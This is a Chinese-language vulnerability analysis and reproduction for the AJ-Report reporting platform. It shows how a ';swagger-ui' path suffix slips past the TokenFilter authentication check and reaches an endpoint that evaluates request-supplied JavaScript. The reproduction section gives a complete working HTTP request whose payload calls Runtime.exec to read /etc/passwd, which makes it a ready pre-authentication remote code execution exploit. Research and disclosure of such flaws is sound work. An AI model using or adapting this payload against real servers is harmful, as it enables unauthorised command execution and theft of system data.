

# 一、漏洞分析
首先看`report-core\src\main\java\com\anjiplus\template\gaea\business\filter`

`CorsFilter.java`和`UrlDecodeFilter.java`中没有鉴权逻辑。

在`TokenFilter.java`中，存在一下函数，其中当URL中包含`"swagger-ui"`或`"swagger-resources"`时直接放行。
```java
    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest request = (HttpServletRequest) servletRequest;
        HttpServletResponse response = (HttpServletResponse) servletResponse;
        String uri = request.getRequestURI();

        // TODO 暂时先不校验 直接放行
        /*if (true) {
            filterChain.doFilter(request, response);
            return;
        }*/

        //OPTIONS直接放行
        if ("OPTIONS".equalsIgnoreCase(request.getMethod())) {
            filterChain.doFilter(request, response);
            return;
        }

        // swagger相关的直接放行
        if (uri.contains("swagger-ui") || uri.contains("swagger-resources")) {
            filterChain.doFilter(request, response);
            return;
        }


        if (SLASH.equals(uri) || SLASH.concat(BusinessConstant.SLASH).equals(uri)) {
            if (BusinessConstant.SLASH.equals(uri)) {
                response.sendRedirect("/index.html");
                return;
            }
            response.sendRedirect(SLASH + "/index.html");
            return;
        }

        // 不需要token验证和权限验证的url，直接放行
        boolean skipAuthenticate = skipAuthenticatePattern.matcher(uri).matches();
        if (skipAuthenticate) {
            filterChain.doFilter(request, response);
            return;
        }
        //获取token
        String token = request.getHeader("Authorization");
        //针对大屏分享，优先处理
        String shareToken = request.getHeader("Share-Token");

        if (StringUtils.isBlank(token) && StringUtils.isBlank(shareToken)) {
            error(response);
            return;
        }

        // 判断token是否过期
        String loginName;
        try {
            loginName = jwtBean.getUsername(token);
        } catch (Exception e) {
            loginName = "";
        }
        String tokenKey = String.format(BusinessConstant.GAEA_SECURITY_LOGIN_TOKEN, loginName);
        String userKey = String.format(BusinessConstant.GAEA_SECURITY_LOGIN_USER, loginName);
        if (!cacheHelper.exist(tokenKey)) {
            //代表token过期
            if (StringUtils.isNotBlank(shareToken)) {
                //需要处理
                //  /reportDashboard/getData
                //  /reportDashboard/{reportCode}
                //  /reportExcel/preview
                List<String> reportCodeList = JwtUtil.getReportCodeList(shareToken);
                if (!uri.endsWith("/reportDashboard/getData") && !uri.endsWith("/reportExcel/preview") && reportCodeList.stream().noneMatch(uri::contains)) {
                    ResponseBean responseBean = ResponseBean.builder().code("50014")
                            .message("分享链接已过期").build();
                    response.getWriter().print(JSONObject.toJSONString(responseBean));
                    return;
                }
                filterChain.doFilter(request, response);
                return;
            }
            error(response);
            return;
        }

        String gaeaUserJsonStr = cacheHelper.stringGet(userKey);

        // 判断用户是否有该url的权限
        if (!BusinessConstant.USER_ADMIN.equals(loginName)) {
            AtomicBoolean authorizeFlag = authorize(request, gaeaUserJsonStr);
            if (!authorizeFlag.get()) {
                authError(response);//无权限
                return;
            }
        }

        // 延长有效期
        cacheHelper.stringSetExpire(tokenKey, token, 3600);
        cacheHelper.stringSetExpire(userKey, gaeaUserJsonStr, 3600);


        //执行
        filterChain.doFilter(request, response);
    }
```

这就存在一个漏洞，Filter只判断URL中包含`"swagger-ui"`或`"swagger-resources"`时直接放行。但譬如`a/b;c/d`这样的`URL`会被`springMVC`解析为`a/c/d`，然后路由到`controler`。

```java
    @PostMapping("/verification")
    public ResponseBean verification(@Validated @RequestBody DataSetParamValidationParam param) {
        DataSetParamDto dto = new DataSetParamDto();
        dto.setSampleItem(param.getSampleItem());
        dto.setValidationRules(param.getValidationRules());
        return responseSuccessWithData(dataSetParamService.verification(dto));
    }
```

框架会自动将请求的请求体中的`JSON`反序列化为`DataSetParamValidationParam`对象，其有`SampleItem`和`ValidationRules`两个属性。然后该函数声明一个`DataSetParamDto`对象，设置其`SampleItem`和`ValidationRules`两个属性的值。然后以此为参数调用`dataSetParamService.verification(dto)`。

`dataSetParamService.verification(dto)`函数：

在`class DataSetParamServiceImpl`中
```java
    private ScriptEngine engine;
    {
        ScriptEngineManager manager = new ScriptEngineManager();
        engine = manager.getEngineByName("JavaScript");
    }


    @Override
    public Object verification(DataSetParamDto dataSetParamDto) {

        String validationRules = dataSetParamDto.getValidationRules();
        if (StringUtils.isNotBlank(validationRules)) {
            try {
                engine.eval(validationRules);
                if(engine instanceof Invocable){
                    Invocable invocable = (Invocable) engine;
                    Object exec = invocable.invokeFunction("verification", dataSetParamDto);
                    ObjectMapper objectMapper = new ObjectMapper();
                    if (exec instanceof Boolean) {
                        return objectMapper.convertValue(exec, Boolean.class);
                    }else {
                        return objectMapper.convertValue(exec, String.class);
                    }

                }

            } catch (Exception ex) {
                throw BusinessExceptionBuilder.build(ResponseCode.EXECUTE_JS_ERROR, ex.getMessage());
            }

        }
        return true;
    }
```

取出 `validationRules当作JavaScript` 脚本。
`engine.eval(validationRules)`：把它当 `JavaScript` 脚本执行/加载（见 DataSetParamServiceImpl.java:101）
然后通过 `Invocable.invokeFunction("verification", dataSetParamDto)` 调用脚本函数。

接着返回执行结果。

因为刚刚可以绕过鉴权，这里又可以执行请求体中的javascript代码，所以构成了鉴权绕过远程代码执行的漏洞。

# 二、漏洞复现
构造payload
只需包含`sampleItem`和`validationRules`即可：
```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 192.168.240.130:9095
Authorization: 
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Connection: close
Content-type: application/json
Content-length:397

{"sampleItem":"1","validationRules":"function verification(data) {var result = \"\";var process = java.lang.Runtime.getRuntime().exec([\"cat\", \"/etc/passwd\"]); var reader = new java.io.BufferedReader( new java.io.InputStreamReader(process.getInputStream()) ); var line; while ((line = reader.readLine()) != null) { result += line + \"\\n\"; } reader.close();process.waitFor();return result; }"}
```

